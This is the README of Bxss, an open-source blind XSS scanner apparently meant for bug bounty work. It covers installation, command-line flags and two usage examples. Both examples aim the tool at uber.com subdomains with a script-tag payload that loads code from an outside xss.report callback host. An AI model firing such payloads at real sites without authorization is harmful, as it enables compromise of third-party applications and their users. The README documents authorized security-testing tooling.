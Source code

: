 <h1 align="center">
  <br>
  <img src="https://github.com/ethicalhackingplayground/bxss/blob/master/static/blinded-drib.png" width="200px" alt="Bxss">
  <br>
  Bxss - Blind XSS Scanner
</h1>

<p align="center">
  <a href="https://github.com/ethicalhackingplayground/bxss/releases/latest">
    <img src="https://img.shields.io/github/v/release/ethicalhackingplayground/bxss?style=flat-square" alt="Version">
  </a>
  <a href="https://github.com/ethicalhackingplayground/bxss/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-MIT-yellow.svg?style=flat-square" alt="License">
  </a>
  <a href="https://goreportcard.com/report/github.com/ethicalhackingplayground/bxss">
    <img src="https://goreportcard.com/badge/github.com/ethicalhackingplayground/bxss?style=flat-square" alt="Go Report Card">
  </a>
  <a href="https://pkg.go.dev/github.com/ethicalhackingplayground/bxss">
    <img src="https://pkg.go.dev/badge/github.com/ethicalhackingplayground/bxss.svg" alt="Go Reference">
  </a>
</p>

---

## 🚀 Description
Bxss is a high-performance Blind XSS scanner that automates the detection of blind XSS vulnerabilities in web applications.

---

## ✨ Features
- Injects Blind XSS payloads into custom headers & parameters
- Supports multiple HTTP methods (PUT, POST, GET, OPTIONS)
- High-speed scanning with concurrency support
- Easily chainable with other tools
- Simple installation and usage

---

## 📦 Installation
```bash
go install -v github.com/ethicalhackingplayground/bxss/v2/cmd/bxss@latest
```

---

## ⚙️ Arguments

| Argument       | Description                                             | Default  |
| ------------- | -------------------------------------------------------- | -------- |
| `-a`          | Append the payload to the parameter                      | `false`  |
| `-c int`      | Set the concurrency level                                | `30`     |
| `-H string`   | Set a custom header                                      | `""`     |
| `-hf string`  | Path to file with headers                                | `""`     |
| `-p string`   | The blind XSS payload                                    | `""`     |
| `-pf string`  | Path to file with payloads                               | `""`     |
| `-t`          | Test parameters for blind XSS                            | `false`  |
| `-X string`   | HTTP method to use                                       | `""`  |
| `-v`          | Enable debug mode                                        | `false`  |
| `-rl float`   | Rate limit (requests per second)                         | `0`      |
| `-f`          | Follow redirects                                         | `false`  |
---

## 🎬 Demonstration
<p align="center">
  <a href="https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm">
    <img src="https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm.svg" alt="Demo">
  </a>
</p>

---

## 🔥 Usage Examples

### Injecting Blind XSS Into Parameters
```bash
subfinder -d uber.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://xss.report/c/username></script>' -parameters
```

### Injecting Blind XSS Into X-Forwarded-For Header
```bash
subfinder -d uber.com | gau | bxss -payload '"><script src=https://xss.report/c/username></script> -header "X-Forwarded-For"
```

---

## ☕ Support the Project
If you get a bounty using this tool, consider supporting by buying me a coffee!

<p align="center">
  <a href="https://buymeacoffee.com/zoidsec" target="_blank">
    <img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;">
  </a>
</p>

